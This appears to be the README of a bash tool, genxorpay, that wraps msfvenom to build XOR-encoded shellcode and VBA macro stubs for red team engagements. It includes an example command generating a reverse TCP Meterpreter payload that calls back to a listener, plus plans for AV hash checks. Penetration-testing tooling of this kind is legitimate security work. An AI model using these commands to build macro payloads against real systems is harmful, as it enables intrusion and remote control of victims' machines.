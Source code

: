# genxorpay
(Generate XOR Payload) is a command-line tool built to simplify the creation of XOR-encoded shellcode using msfvenom, optimized for VBA macro delivery in offensive security engagements and red team operations. 

![Platform](https://img.shields.io/badge/platform-linux%20%7C%20macOS-brightgreen?style=flat-square)
![Language](https://img.shields.io/badge/language-bash-blue?style=flat-square)

---
### 🔥 Features
- ✅ Supports a wide range of **Meterpreter** and **Shell** payloads
- ✅ Auto-generates **VBA macro stubs** with XOR-decoded shellcode
- ✅ Saves raw `msfvenom` output and encoded buffers for analysis or reuse
- ✅ Optional **interactive clipboard mode** to quickly copy payloads, shellcode, or listener setup
- ✅ Automatically detects payload types and adjusts output (e.g., `.exe` for unsupported VBA payloads)
- ✅ Fully compatible with **Windows**, **Linux**, **macOS**, and **Android** payloads
- ✅ Debug log generation for reproducibility and audits

---
### 🔌 Clone the Repository

```bash
git clone https://github.com/yourname/genxorpay.git
cd genxorpay
chmod +x genxorpay.sh
```

---
### 📦 Example Use

```bash
./genxorpay.sh -p 3 -lhost 192.168.1.100 -lport 4444 -o macro.vba -raw raw.vba -i
```

This will:
- Generate a **reverse TCP Meterpreter** payload
- XOR-encode the shellcode
- Write a macro to `macro.vba`
- Save the raw shellcode to `raw.vba`
- Enter interactive mode for copying payload elements to clipboard

----
### 🎯 Intended Use

`genxorpay` is designed for:
- **Red team operations**
- **Penetration testing**
- **Macro payload development**
- **Payload encoding research**

> ⚠️ **Ethical Use Only:** This tool is intended for use in environments where you have explicit permission. Unauthorized use is illegal and unethical.

# TODO
### (Future To-Do)
- -e encoder and --iterations support for msfvenom

- Add --format or --binary override

- Add --test mode to auto-run payload in sandbox

- Add optional --encode-only mode for custom shellcode

- Handle msfvenom failure with --debug output

- Add integrity check of output bytes (e.g., checksum)

- Include SHA256 of output payloads in log (For hash checks on AV)

- Add --staged, --stageless, or --arch=x86/x64 options

### 🤝 Contributions
Contributions, ideas, and pull requests are welcome. Please file an issue if you discover a bug or want to propose a feature.

## 📎 Author

Made with ❤️ for security professionals by [Ninjarku](https://github.com/Ninjarku)
